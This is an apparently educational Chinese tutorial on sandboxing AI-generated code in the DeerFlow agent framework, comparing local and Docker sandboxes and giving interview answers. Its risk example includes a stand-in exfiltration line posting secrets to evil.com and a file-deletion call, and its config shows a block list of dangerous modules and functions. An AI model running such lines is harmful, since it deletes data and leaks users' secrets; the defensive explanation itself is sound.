


# 【文档14】沙箱系统 —— 安全执行不可信代码

## 1. 五分钟速览

**这篇文档解决什么问题？**

如果你想了解：
- 为什么需要沙箱执行？
- 本地沙箱和Docker沙箱有什么区别？
- 沙箱如何隔离风险？
- DeerFlow的沙箱如何设计？

那么这篇文档给你**沙箱系统的完整认知**。

**阅读后你将获得：**
- 沙箱的核心概念和必要性
- 两种沙箱模式的对比
- 沙箱的安全隔离机制
- 面试时关于沙箱问题的精炼回答

---

## 2. 为什么需要沙箱？

### 2.1 AI生成代码的风险

```
用户："帮我分析这个数据"

Agent："我来写个Python脚本分析"

生成的代码可能：
🔴 删除文件：os.remove("/important/data")
🔴 泄露数据：requests.post("evil.com", data=secrets)
🔴 死循环：while True: pass
🔴 占用资源：while True: allocate_memory()
🔴 调用未授权API：connect_to_internal_system()
```

**问题**：AI生成的代码质量不可控，直接执行风险巨大。

### 2.2 沙箱的解决方案

```
沙箱 = 隔离的执行环境

核心思想：
→ 代码在隔离环境中运行
→ 只能访问受限资源
→ 出问题不影响主系统

类比：
→ 沙箱 = 实验室的隔离室
→ 危险实验在隔离室做
→ 炸了也不会伤到外面
```

---

## 3. DeerFlow的两种沙箱模式

### 3.1 本地沙箱 vs Docker沙箱

| 维度 | 本地沙箱 | Docker沙箱 |
|------|----------|-----------|
| **隔离程度** | 进程级隔离 | 容器级隔离（更强） |
| **资源限制** | 软限制（超时） | 硬限制（CPU/内存/磁盘） |
| **网络隔离** | 可限制 | 可完全禁止 |
| **文件系统** | 受限访问路径 | 完全隔离的文件系统 |
| **启动速度** | 快（毫秒级） | 慢（秒级） |
| **资源消耗** | 低 | 高（容器开销） |
| **安全性** | 中等 | 高 |
| **适用场景** | 简单脚本、快速执行 | 复杂任务、需要强隔离 |

### 3.2 两种沙箱的架构对比

**本地沙箱**：


**Docker沙箱**：


---

## 4. 本地沙箱详解

### 4.1 工作原理

```
本地沙箱 = 受限的子进程

特点：
1. 路径限制
   → 只能访问指定目录
   → 例如：/tmp/sandbox/

2. 超时机制
   → 执行时间超过N秒，强制终止
   → 防止死循环

3. 资源监控
   → 监控内存使用
   → 监控CPU占用
   → 超限就终止

4. 权限控制
   → 禁用危险函数（eval、exec）
   → 限制模块导入
```

### 4.2 执行流程



### 4.3 本地沙箱的安全限制

```python
# 概念示意：本地沙箱的限制
LOCAL_SANDBOX_LIMITS = {
    "allowed_paths": ["/tmp/sandbox/"],  # 只能访问这个目录
    "max_execution_time": 30,            # 最多30秒
    "max_memory": "512MB",               # 最多512MB内存
    "max_cpu": "50%",                    # 最多50%CPU
    "blocked_modules": [                 # 禁止导入的模块
        "os", "subprocess", "socket",
        "requests", "urllib"
    ],
    "blocked_functions": [               # 禁止的函数
        "eval", "exec", "compile",
        "__import__"
    ]
}
```

---

## 5. Docker沙箱详解

### 5.1 工作原理

```
Docker沙箱 = 完全隔离的容器

特点：
1. 文件系统隔离
   → 容器有独立的文件系统
   → 与主机完全隔离

2. 网络隔离
   → 可以禁止网络访问
   → 或者只允许特定出口

3. 资源硬限制
   → CPU限制：最多N核
   → 内存限制：最多N MB
   → 磁盘限制：最多N GB

4. 特权隔离
   → 容器内是普通用户
   → 没有特权操作
```

### 5.2 Docker沙箱的配置

```yaml
# 概念示意：Docker沙箱配置
docker_sandbox:
  image: "python:3.11-slim"
  limits:
    cpus: "0.5"           # 最多0.5个CPU核心
    memory: "512M"        # 最多512MB内存
    disk: "1G"            # 最多1GB磁盘
  network:
    enabled: false        # 禁止网络访问
  security:
    no_new_privileges: true
    read_only: true       # 只读文件系统
    tmpfs:
      - /tmp:rw,size=100M # 只有/tmp可写
  timeout: 30             # 30秒超时
```

### 5.3 Docker沙箱的优势

```
更强的隔离：
→ 容器是完全独立的系统
→ 即使代码有漏洞也无法逃逸

更精确的资源控制：
→ 硬件级别的资源限制
→ 不会因为一个任务影响其他任务

更灵活的网络策略：
→ 完全禁止网络
→ 或者只允许访问特定域名

更安全的文件系统：
→ 只读根文件系统
→ 只有指定目录可写
```

---

## 6. 沙箱的安全机制

### 6.1 多层防护



### 6.2 威胁场景与防护

| 威胁 | 防护措施 |
|------|----------|
| 删除文件 | 文件系统隔离，只能访问沙箱目录 |
| 泄露数据 | 网络隔离，禁止外部连接 |
| 死循环 | 超时机制，强制终止 |
| 占用资源 | 资源限制，超过阈值终止 |
| 容器逃逸 | Docker安全配置，无特权模式 |
| 加密货币挖矿 | 资源监控 + CPU限制 |

---

## 7. 沙箱的使用场景

### 7.1 本地沙箱适用场景

```
✅ 简单数据处理
   → 计算统计指标
   → 转换数据格式

✅ 文本处理
   → 正则表达式匹配
   → 文本分析和处理

✅ 快速验证
   → 代码片段测试
   → 算法验证

特点：
→ 启动快，开销小
→ 适合轻量级任务
```

### 7.2 Docker沙箱适用场景

```
✅ 复杂计算
   → 机器学习推理
   → 数据分析

✅ 不可信代码
   → 用户提交的代码
   → 第三方脚本

✅ 需要依赖隔离
   → 不同版本的Python包
   → 冲突的依赖

✅ 长时间任务
   → 需要更可靠的环境
   → 需要更强的资源控制

特点：
→ 隔离性强，更安全
→ 适合重量级任务
```

---

## 8. 设计思想

### 8.1 为什么提供两种沙箱？

```
设计考量：

本地沙箱：
→ 优势：快速、轻量
→ 劣势：隔离较弱
→ 适用：可信代码、简单任务

Docker沙箱：
→ 优势：强隔离、更安全
→ 劣势：慢、重
→ 适用：不可信代码、复杂任务

为什么要两者？
→ 让用户根据场景选择
→ 平衡安全性和性能
→ 灵活应对不同需求
```

### 8.2 沙箱的局限性

```
沙箱不能完全保证安全：

1. 侧信道攻击
   → 通过时间、能耗推断信息

2. 容器逃逸漏洞
   → Docker可能有未发现的漏洞

3. 社会工程
   → 代码诱导用户做危险操作

4. 资源消耗
   → 即使有限制，仍然消耗资源

结论：
→ 沙箱是"降低风险"，不是"完全消除风险"
→ 需要配合其他安全措施
```

---

## 9. 面试要点

### Q1: 为什么AI生成的代码要在沙箱中执行？

**参考回答**：
```
AI生成的代码有以下风险：

1. 质量不可控
   → 可能有死循环
   → 可能占用大量资源

2. 意图不确定
   → 可能删除文件
   → 可能泄露数据
   → 可能调用未授权API

3. 来源不可信
   → AI可能被诱导生成恶意代码

沙箱的作用：
→ 提供隔离的执行环境
→ 限制资源访问
→ 出问题不影响主系统

这是"最小权限原则"的体现。
```

### Q2: 本地沙箱和Docker沙箱有什么区别？

**参考回答**：
```
核心区别：

本地沙箱：
→ 进程级隔离
→ 受限的文件访问
→ 超时机制
→ 启动快，开销小

Docker沙箱：
→ 容器级隔离（更强）
→ 完全独立的文件系统
→ 网络隔离
→ 硬件级资源限制
→ 启动慢，开销大

选择依据：
→ 简单任务用本地沙箱
→ 复杂任务或不可信代码用Docker沙箱
→ 平衡安全性和性能
```

### Q3: 沙箱如何保证安全？

**参考回答**：
```
沙箱通过多层防护保证安全：

1. 环境隔离
   → 本地：进程隔离
   → Docker：容器隔离

2. 权限控制
   → 限制文件访问路径
   → 禁止危险函数
   → 限制网络访问

3. 资源限制
   → CPU限制
   → 内存限制
   → 执行时间限制

4. 监控熔断
   → 实时监控执行状态
   → 检测异常行为
   → 超限强制终止

但沙箱不是绝对安全，需要配合其他安全措施。
```

### Q4: 沙箱有什么局限性？

**参考回答**：
```
沙箱的局限性：

1. 隔离不是绝对的
   → 容器可能有逃逸漏洞
   → 侧信道攻击可能泄露信息

2. 资源消耗
   → 即使有限制，仍然消耗系统资源
   → 大量并发可能压垮系统

3. 功能限制
   → 隔离环境功能受限
   → 某些操作无法完成

4. 性能开销
   → 沙箱有额外的性能开销
   → 不适合对性能敏感的场景

5. 误报
   → 安全策略可能误杀正常操作

所以需要平衡安全性和可用性。
```

### Q5: 如果要在沙箱中访问网络，应该怎么设计？

**参考回答**：
```
沙箱网络访问的设计：

1. 白名单机制
   → 只允许访问特定域名
   → 禁止其他所有网络访问

2. 代理模式
   → 所有流量经过代理
   → 代理进行过滤和审计

3. 出站限制
   → 禁止入站连接
   → 只允许HTTP/HTTPS出站

4. 流量监控
   → 记录所有网络请求
   → 检测异常行为

5. 超时限制
   → 单个请求超时
   → 总网络时间超时

这样既满足功能需求，又保证安全。
```

---

## 10. 延伸思考

### 10.1 沙箱的性能优化

```
问题：沙箱有性能开销

优化方向：
1. 沙箱池复用
   → 预先创建沙箱
   → 用完不销毁，复用

2. 轻量级隔离
   → 使用更轻的隔离技术
   → 如user namespaces

3. 按需隔离
   → 简单任务不用沙箱
   → 复杂任务才用沙箱

4. 资源预热
   → 预加载常用依赖
   → 减少启动时间
```

### 10.2 沙箱的审计

```
问题：如何知道沙箱里发生了什么？

审计内容：
1. 执行记录
   → 执行了什么代码
   → 执行了多长时间
   → 消耗了多少资源

2. 访问记录
   → 访问了哪些文件
   → 发起了哪些网络请求

3. 异常记录
   → 有哪些错误
   → 有哪些异常行为

这些信息用于：
→ 安全审计
→ 问题排查
→ 性能分析
```

### 10.3 沙箱的未来

```
当前沙箱：
→ 进程/容器级隔离

未来方向：
1. WebAssembly沙箱
   → 更轻量
   → 更安全
   → 跨平台

2. 硬件级隔离
   → 利用硬件虚拟化
   → 更强的隔离

3. 分布式沙箱
   → 沙箱运行在独立机器
   → 完全物理隔离

4. 智能沙箱
   → 根据代码风险动态调整策略
   → AI检测恶意代码
```

---

## 11. 思考问题

### 11.1 理解检验

1. 为什么需要沙箱执行AI生成的代码？
2. 本地沙箱和Docker沙箱的核心区别是什么？
3. 沙箱通过哪些机制保证安全？

### 11.2 设计思考

4. 如果沙箱中的代码需要访问外部API，应该怎么设计？
5. 如何检测沙箱中的代码是否在"挖矿"？
6. 沙箱的"性能"和"安全"如何平衡？

### 11.3 场景应用

7. 用户要求"执行这个Python脚本"，应该用哪种沙箱？
8. 如果要在沙箱中处理100MB数据，需要注意什么？
9. 如何设计沙箱的"资源配额"系统？

### 11.4 深入探讨

10. 沙箱能否防止"AI投毒"（通过数据影响AI行为）？
11. 如果沙箱被攻破，如何最小化损失？
12. 如何评估沙箱的安全等级？

---

## 12. 本篇小结

**核心要点**：

1. **为什么需要沙箱**：AI生成的代码有风险，需要隔离执行
2. **两种模式**：本地沙箱（快速轻量）+ Docker沙箱（强隔离）
3. **安全机制**：环境隔离 + 权限控制 + 资源限制 + 监控熔断
4. **场景选择**：简单任务用本地，复杂/不可信用Docker
5. **局限性**：沙箱降低风险，不是完全消除

**你现在已经理解了沙箱系统**，下一篇我们将深入**检查点与状态管理**，看看如何实现"暂停/恢复"功能。

---

## 13. 文档衔接

**本篇完结**，下一篇将解析：【15-检查点与状态管理：如何实现"暂停/恢复"】

**衔接说明**：
- 14篇解决了"如何安全执行"的问题
- 15篇将解决"如何持久化状态"的问题
- 检查点是长时间任务的基础能力
- 理解检查点才能理解任务的"暂停/恢复"机制
